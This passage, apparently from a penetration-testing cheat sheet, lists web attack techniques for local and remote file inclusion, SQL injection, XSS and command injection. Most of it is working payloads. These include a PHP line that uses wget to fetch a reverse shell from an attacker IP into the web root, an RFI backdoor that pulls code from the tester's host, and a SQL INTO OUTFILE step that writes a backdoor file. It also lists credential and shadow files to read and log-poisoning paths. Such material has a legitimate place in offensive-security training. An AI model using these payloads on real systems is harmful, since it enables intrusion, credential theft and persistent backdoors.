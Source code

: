 ````

OR Upload a reverse shell:
```<?php system('wget http://10.10.14.19/revshell.php -O /var/www/shell.php');?>```

#### Interesting File locations to try:
```
/etc/passwd | /etc/shadow
../../../boot.ini  to find out windows version
/var/www/html/config.php or similar paths to get SQL etc creds
/Inetpub/wwwroot | /var/www/html paths for web creds via php files
/etc/apache2/apache2.conf | /etc/httpd/conf/httpd.conf or server config
/proc/self/fd/xx contaminate via burp with referer
/proc/$pid/environ contaminate via burp with useragent
/proc/self/cmdline  contaminate running process memory
/var/log/messages | var/log/apache/access.log  or similar paths to contaminate logs
```

#### More Reading and Files on Traversal
https://highon.coffee/blog/lfi-cheat-sheet/

https://portswigger.net/web-security/file-path-traversal

https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601

https://www.offensive-security.com/metasploit-unleashed/file-inclusion-vulnerabilities/

https://wiki.apache.org/httpd/DistrosDefaultLayout#Debian.2C_Ubuntu_.28Apache_httpd_2.x.29

#### RFI
Have your PHP/cgi downloader ready
```<?php include $_GET['inc']; ?>``` - simplest backdoor to keep it dynamic without anything messing your output
Then you can just ```http://$IP/inc.php?inc=http://$YOURIP/bg.php``` and have full control with minimal footprint on target machine
```get phpinfo()```
For RFI you don't need null byte, simply match the file extension on the remote file, inject a ```?``` Which turns the extension into query string, use URL rewriting, etc, etc
⇒ this is important. Try **ALL** file extensions. E.g., ```http://www.example.com/badcode.php.gif```

#### Wfuzz
```wfuzz -c --hh 1819 -u "http://kioptrix3.com/index.php?system=FUZZ" -zfile,/usr/share/wfuzz/wordlist/customcon/LFI-tester.txt```

# SQLi
```www.website/gallery/gallery.php?id=1```
As well as logon auto, if you see any web app that has a gallery with pictures, any web app that seems to have a grid based page with different boxes, or any web app that can order items in any way - this is a sign of UNION SELECT
```
Union select all 1,2,3,4…
Union select all 1,2,3,4…--
Union select all 1,2,3,4…#
```
```SQL Outfile - ….into OUTFILE 'c:/xampp/htdocs/backdoor.php'--```

https://www.perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/

#### Comment field - XSS
XSS attempts:
```<script>alert(‘test’);</script>```

# OS Command Injection
Abuse web interfaces that are clearly making system calls 
e.g., Exploiting a web interface ```ping.php``` to make OS Calls:
- https://medium.com/csg-govtech/a-simple-os-command-injection-challenge-5acf92799f74
````